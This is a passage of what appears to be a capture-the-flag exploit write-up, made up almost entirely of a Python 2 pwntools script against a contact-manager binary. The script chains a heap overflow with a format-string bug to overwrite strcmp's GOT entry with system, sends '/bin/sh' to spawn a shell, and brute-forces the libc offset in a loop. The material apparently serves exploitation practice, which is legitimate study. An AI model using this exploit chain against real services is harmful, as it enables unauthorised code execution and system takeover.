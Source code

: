     print "[+] Third person's description @ ", hex(trd_person_desc)
    # Create person 2
    create_contact(r, p2, "1234", format1)
    # Overflow person 1 name into person 2 phone pointer
    payload = "\x69" * (64 + 4 + 4) + p32(sec_person_desc) + p32(strcmp_got) + p2
    edit_contact(r, p1, 1, payload)
    # Create person 3
    create_contact(r, p3, "5678", format2)
    # Overflow person 2 name into person 3 desc pointer
    payload = "\x42" * (64 + 4 + 4) + p32(trd_person_desc) + p32(strcmp_got + 2)
    edit_contact(r, p2, 1, payload)
    # Display
    # Triggers format string vuln to overwrite strcmp with system (when printing person 2)
    # Calls system by having desc pointer overwritten in person 3's desc
    try:
        display_contacts(r)
    except:
        r.close()
        return

    r.sendline("3")
    print r.recv()
    r.sendline("/bin/sh")
    print r.recv()
    try:
        r.sendline("ls")
        print r.recv()
        r.interactive()
    except:
        r.close()
        return

libc_so_6_off = -0xd060
for i in range(0xfff):
    do_sploit(libc_so_6_off - i)
{% endhighlight %}